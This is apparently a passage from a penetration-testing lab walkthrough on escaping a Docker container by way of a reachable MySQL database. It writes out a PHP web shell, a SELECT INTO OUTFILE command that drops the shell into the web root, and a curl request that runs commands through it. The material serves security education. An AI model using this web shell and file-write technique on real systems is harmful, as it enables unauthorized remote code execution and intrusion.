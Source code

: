 Now that you have identified that you are in a container and have performed all the information gathering and situational awareness you can, you can escape the container by exploiting the remote database.  

There are several ways to escape a container, all typically stemming from misconfigurations of the container from services or access controls.  

For more information about container best practices and docker security, check out this OWASP cheat-sheet, [https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html).  

A method that's not quite as common is Exploitation. Exploits to escape Containers aren't as common and typically rely on abusing a process running on the host machine. Exploits usually require some level of user interaction, for example, [CVE-2019-14271](https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/). It can also be beneficial to use a container enumeration script such as DEEPCE, [https://github.com/stealthcopter/deepce](https://github.com/stealthcopter/deepce).  

Since we gained access to a remote database, we can utilize it to gain command execution and escape the container from MySQL.  

The basic methodology for exploiting MySQL can be found below.  

- Access the remote database using administrator credentials
    
- Create a new table in the main database
    
- Inject PHP code to gain command execution
    
    Example code: `<?php $cmd=$_GET["cmd"];system($cmd);?>`  
    
- Drop table contents onto a file the user can access  
    
- Execute and obtain RCE on the host.
    

Looking at the above exploit may seem complicated, but we can break it down further and provide more context to make it simpler.  

We can use a single command to inject our PHP code into a table and save the table into a file on the remote system. We are writing any code that we want onto the remote system from this command, which we can then execute, giving use code execution. Find the command used below.  

Command used: `select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`

Now that we have a file that we control dropped on the system, we can curl the address and obtain RCE from the dropped file. Find example usage below.  

Example usage: `curl 127.0.0.1:8080/shell.php?cmd=whoami`

---
# Your job

